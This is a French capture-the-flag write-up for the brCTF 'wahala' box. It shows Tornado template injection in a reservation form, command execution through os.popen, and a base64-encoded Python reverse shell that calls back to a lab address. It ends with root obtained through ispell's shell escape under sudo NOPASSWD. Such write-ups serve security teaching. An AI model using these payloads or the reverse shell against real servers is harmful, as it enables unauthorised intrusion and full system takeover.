









> Compétition : **brCTF** — Box « wahala »

## Informations

- **Catégorie :** Web / Linux (Rootable, Timed)
- **Difficulté :** Basic
- **Points :** 270
- **Auteur du write-up :** 3ch0
- **Services :** `22/tcp` (SSH), `80/tcp` (TornadoServer 6.5.8), `8080/tcp` + `8088/tcp` (http)
- **Flag user :** `ETSCTF_d1358125b18eb646eaedf7c2ec9e977a`
- **Flag root :** `ETSCTF_080f85580070b6cd3b28b0817e744b05`

> **Note :** box « Timed » — l'IP tourne régulièrement (10.0.10.18, .17…). Adapter `$IP` à l'IP affichée sur la plateforme.

---

## 1. Reconnaissance

```bash
nmap -sC -sV 10.0.10.18
```

```text
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh?
80/tcp   open  http?
8080/tcp open  http-proxy?
8088/tcp open  radan-http?
| fingerprint-strings:
|   LPDString:
|     HTTP/1.1 400 Bad Request
|     HTTP requires CRLF terminators
```

Quatre ports : SSH (22), le site principal (80), et deux services HTTP additionnels (8080, 8088). Le serveur HTTP du port 80 est **Tornado** (framework web Python, en-tête `TornadoServer/6.5.8`) — détail décisif : Tornado embarque son propre moteur de templates avec la syntaxe `{{ ... }}`. Le site est « Nkosia Street Food » (template resto). Les ports 8080/8088 n'ont pas servi ici (l'entrée se fait par le 80), mais sont à garder en tête comme pistes alternatives.



---

## 2. Un formulaire de réservation qui répond

La page `/reservations.html` contient un vrai formulaire POST vers `/callback-success` :

```text
POST /callback-success
name=lol&rphone=...&rdate=...&rparty-size=4&radd-info=&submit=Submit+Reservation
```

Réponse :

```text
Dear lol, your reservation request has been received...
```

Le champ **`name` est réfléchi** dans la réponse (« Dear **lol**, … »). Serveur Tornado + entrée utilisateur réfléchie → test immédiat d'une **SSTI**.



---

## 3. SSTI (Server-Side Template Injection)

```text
name = {{7*7}}
```

```text
Dear 49, your reservation request has been received...
```

`49` → le template évalue l'expression. SSTI confirmée. Un traceback provoqué plus tard confirme la cause côté serveur :



Identification tu template engine

```
name = {{7*'7'}}
```

Resultat

```text
Dear 7777777
```



On remarque qu'on est fasse a un template python.

---

## 4. RCE

Tornado permet d'importer des modules dans le template (``) :

```text
name = {{ os.popen('id').read() }}
```

```text
Dear uid=1000(BRCTF) gid=1000(BRCTF) groups=1000(BRCTF)
, your reservation request has been received...
```

Exécution de commandes en tant que **BRCTF**.



---

## 5. Flag user

```text
name = {{ os.popen('ls /home/BRCTF/').read() }}
```

```text
Dear ETSCTF_d1358125b18eb646eaedf7c2ec9e977a, your reservation request...
```



**user :** `ETSCTF_d1358125b18eb646eaedf7c2ec9e977a`

---

## 6. Reverse shell

Pour un accès interactif, reverse shell Python (pty.spawn → TTY direct), encodé en base64 pour éviter les guillemets :

```bash
# payload d'origine
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.0.230",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

```text
name = {{ os.popen('echo <BASE64> | base64 -d | bash').read() }}
```

Listener + stabilisation :

```bash
nc -lvnp 4444
# après connexion : Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

```text
BRCTF@wahala:/opt/app$ id
uid=1000(BRCTF) gid=1000(BRCTF) groups=1000(BRCTF)
```

---

## 7. Privesc — `sudo ispell` (shell escape)

```bash
sudo -l
```

```text
User BRCTF may run the following commands on wahala:
    (ALL : ALL) NOPASSWD: /usr/bin/spill
```

`/usr/bin/spill` est un binaire custom. Son `--help` trahit son identité :

```text
@(#) International Ispell Version 3.4.02 ...
Commands are:
  ...
  !       Shell escape.
```

C'est **ispell** (le correcteur orthographique) renommé. Il possède une commande interactive **`!` = shell escape**, exécutée via `system()` → avec `sudo`, elle tourne en **root** (technique GTFOBins).

### Exploitation

```bash
# fichier avec des mots inconnus → force le mode interactif
printf 'zzqqxx wrrongg mispeled kkjjhh\n' > /tmp/pwn1.txt
sudo /usr/bin/spill /tmp/pwn1.txt
```

ispell s'ouvre sur le premier mot inconnu :



Au clavier, taper **`!`** puis **`/bin/bash`** + Entrée :



```text
!/bin/bash
root@wahala:/opt/app# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 8. Flag root

```bash
ls -la /root
```

```text
-rw-r--r-- 1 root root 0 Aug 23 15:54 ETSCTF_080f85580070b6cd3b28b0817e744b05
```

Le flag est le **nom du fichier** (0 octet).



**root :** `ETSCTF_080f85580070b6cd3b28b0817e744b05`

---

## Récapitulatif de la chaîne d'exploitation

1. **nmap** → Tornado sur le port 80.
2. Formulaire `/callback-success` → champ `name` réfléchi.
3. **SSTI** : `{{7*7}}` → 49.
4. **RCE** : `{{ os.popen('id').read() }}` → user BRCTF.
5. Flag **user** via `cat user.txt`.
6. **Reverse shell** Python (base64) + stabilisation TTY.
7. `sudo -l` → `/usr/bin/spill` (= ispell) NOPASSWD.
8. **Shell escape `!`** dans ispell lancé en sudo → **root**.

---

***— 3ch0***
